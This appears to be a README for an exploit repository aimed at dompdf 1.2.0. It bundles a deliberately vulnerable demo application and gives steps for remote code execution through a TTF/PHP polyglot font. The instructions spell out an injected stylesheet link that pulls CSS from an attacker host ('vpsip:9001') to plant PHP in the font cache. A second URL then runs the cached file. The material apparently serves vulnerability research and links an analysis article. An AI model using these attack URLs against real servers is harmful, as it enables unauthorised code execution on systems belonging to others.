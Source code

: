 # RCE exploit for dompdf

该存储库包含一个使用 dompdf 1.2.0 的易受攻击的演示应用程序和一个通过 ttf+php 多语言文件实现远程代码执行的漏洞利用程序。

![Exploit Overview](exploit/overview.png)

分析文章:https://positive.security/blog/dompdf-rce

## Instructions

1. application文件夹为漏洞环境，需要使用php7.0环境

2. 调用远程css，写入恶意php代码
```
http://localhost:9000/index.php?pdf&title=<link rel=stylesheet href='http://vpsip:9001/exploit.css'>
```

3. 访问缓存的php "font"文件并执行phpinfo()
```
http://localhost:9000/dompdf/lib/fonts/exploitfont_normal_3f83639933428d70e74a061f39009622.php
```
